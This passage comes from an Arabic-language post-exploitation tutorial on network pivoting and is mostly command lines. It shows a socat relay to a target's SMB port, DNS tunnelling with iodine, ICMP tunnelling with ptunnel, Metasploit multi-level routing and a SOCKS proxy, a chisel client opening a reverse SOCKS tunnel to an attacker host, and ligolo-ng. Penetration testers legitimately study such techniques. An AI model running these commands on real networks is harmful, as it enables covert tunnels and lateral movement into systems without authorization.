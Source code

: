 # على نظام المهاجم
socat TCP-LISTEN:9090,fork STDOUT | tee /tmp/pivot_received.log | socat STDIN TCP:target_ip:445
التنقل المتقدم
1. نفق DNS (DNS Tunneling)
استخدام بروتوكول DNS لنقل البيانات عندما تكون بروتوكولات أخرى مقيدة:

bash
# إعداد خادم Iodine DNS
iodined -f -c -P password 10.0.0.1 tunnel.yourdomain.com

# اتصال العميل
iodine -f -P password tunnel.yourdomain.com
2. ICMP Tunneling
استخدام حزم ICMP (ping) لنقل البيانات:

bash
# على النظام المهاجم
ptunnel -p [compromised_host_ip] -lp 8000 -da [internal_target] -dp 3389

# على النظام المخترق
ptunnel
3. التنقل متعدد المستويات (Multi-Level Pivoting)
للوصول إلى شبكات متعددة الطبقات:

# المستوى الأول من التوجيه
route add 192.168.1.0 255.255.255.0 1

# بعد اختراق نظام في الشبكة 192.168.1.0
route add 192.168.2.0 255.255.255.0 2

# إعداد بروكسي متعدد المستويات
use auxiliary/server/socks_proxy
run
4. استخدام برامج التنقل المتخصصة
Chisel
bash
# على النظام المهاجم
./chisel server -p 8080 --reverse

# على النظام المخترق
./chisel client [attacker_ip]:8080 R:socks
Ligolo
bash
# على النظام المهاجم
./ligolo-ng -selfcert
[...]
session > bind -p 8080:127.0.0.1:8080
